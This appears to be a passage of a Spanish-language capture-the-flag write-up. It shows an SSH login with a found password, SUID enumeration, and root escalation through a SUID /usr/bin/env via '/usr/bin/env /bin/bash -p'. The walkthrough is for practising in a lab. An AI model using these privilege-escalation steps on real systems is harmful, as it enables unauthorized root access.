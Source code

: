 Veremos que ha funcionado, por lo que nos vamos a conectar por `SSH` a ver que vemos.

### SSH

```shell
ssh baluton@<IP>
```

Metemos como contraseña `balulerobalulon`, con esto estaremos dentro.

## Escalate Privileges

Si listamos los permisos `SUID` veremos lo siguiente:

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:

```
3697405     56 -rwsr-xr-x   1 root     root        55680 Jun  5 14:17 /usr/bin/su
  3696955     72 -rwsr-xr-x   1 root     root        72792 May 30  2024 /usr/bin/chfn
  3697231     40 -rwsr-xr-x   1 root     root        40664 May 30  2024 /usr/bin/newgrp
  3697059     76 -rwsr-xr-x   1 root     root        76248 May 30  2024 /usr/bin/gpasswd
  3697027     48 -rwsr-xr-x   1 root     root        48072 Apr  5  2024 /usr/bin/env
  3697244     64 -rwsr-xr-x   1 root     root        64152 May 30  2024 /usr/bin/passwd
  3697470     40 -rwsr-xr-x   1 root     root        39296 Jun  5 14:17 /usr/bin/umount
  3697189     52 -rwsr-xr-x   1 root     root        51584 Jun  5 14:17 /usr/bin/mount
  3696961     44 -rwsr-xr-x   1 root     root        44760 May 30  2024 /usr/bin/chsh
  3697976    336 -rwsr-xr-x   1 root     root       342632 Jun  9 19:22 /usr/lib/openssh/ssh-keysign
  3697692     36 -rwsr-xr--   1 root     messagebus    34960 Aug  9  2024 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Veremos esta linea bastante interesante:

```
3697027   48 -rwsr-xr-x   1 root     root    48072 Apr  5  2024 /usr/bin/env
```

Viendo esto podremos realizar lo siguiente para ser `root`.

```shell
/usr/bin/env /bin/bash -p
```

Info:

```
bash-5.2# whoami
root
```

Con esto ya seremos `root`, por lo que habremos terminado la maquina con éxito.
